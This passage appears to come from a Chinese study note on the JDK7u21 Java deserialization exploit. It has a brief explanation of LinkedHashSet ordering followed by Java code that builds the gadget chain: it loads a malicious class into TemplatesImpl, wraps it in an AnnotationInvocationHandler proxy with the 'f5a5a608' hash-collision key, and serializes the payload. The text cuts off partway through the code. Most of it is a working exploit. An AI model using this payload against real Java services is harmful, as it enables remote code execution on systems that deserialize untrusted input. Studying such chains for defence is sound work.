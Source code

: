 LinkedHashSet版：

HashSet.readObject判断如果是用LinkedHashSet对象，就用LinkedHashMap存储。LinkedHashMap增加了一个双向链表来链接所有Entry，遍历时按照元素被插入的顺序进行遍历。add时按照正常顺序add

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240917162236398.png)

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;

public class JDK7u21 {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\codecollect\\RMIServer\\RMIServer\\target\\classes\\org\\example\\RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        HashMap Annovar2map = new HashMap();
        Annovar2map.put("f5a5a608",templatesClass);
        InvocationHandler annotationInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, Annovar2map);
        Field typeField = annotationInvocationHandler.getClass().getDeclaredField("type");
        typeField.setAccessible(true);
        Map annoProxy = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},annotationInvocationHandler);
        LinkedHashSet annoset = new LinkedHashSet();
        annoset.add(templatesClass);
        annoset.add(annoProxy);
        typeField.set(annotationInvocationHandler, Templates.class);
        serialize(annoset);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
```